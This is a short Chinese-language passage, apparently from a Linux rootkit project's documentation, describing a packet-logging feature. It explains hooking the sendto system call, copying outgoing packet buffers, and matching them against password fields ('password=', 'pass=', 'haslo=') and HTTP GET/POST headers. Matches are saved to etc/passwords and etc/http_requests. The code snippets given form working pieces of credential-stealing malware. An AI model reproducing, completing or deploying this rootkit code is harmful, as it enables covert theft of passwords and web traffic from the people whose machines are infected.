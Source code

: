 ## **功能7 监视网络发送**### packet记录模块rootkit通过设置钩子，钩住进程所调用的某些函数，对函数中的数据进行监视，并保存一些感兴趣的内容，比如http请求或者密码内容，将它们保存在指定的目录下。### 步骤：
监视网络发送 hook send系统调用
hook send函数
` long new_sys_sendto(int fd, void __user *buff_user, size_t len,unsigned int flags, struct sockaddr __user *addr, int addr_len)`
其中fd是文件描述符，通过文件描述符fd，找到对应的socket实例。

如果packet的长度为0或者没有成功执行拷贝操作则goto end。

否则，接下来

`password_found()`检查数据包内容是否包含密码

```if(strnstr(buf, "password=", size))
        return 1;
if (strnstr(buf, "pass=", size))
        return 1;
if (strnstr(buf, "haslo=", size)) //password in polish
        return 1;
    return 0;

```   

`http_header_found()`检查是否包含http头

```
 if (strnstr(buf, "POST /", size))
        return 1;
    if (strnstr(buf, "GET /", size))
        return 1;
    return 0;
```
    
如果包含密码或者http头，都将内容通过 `save_to_log()`保存至etc的相应文件etc/passwords和etc/http_requests。
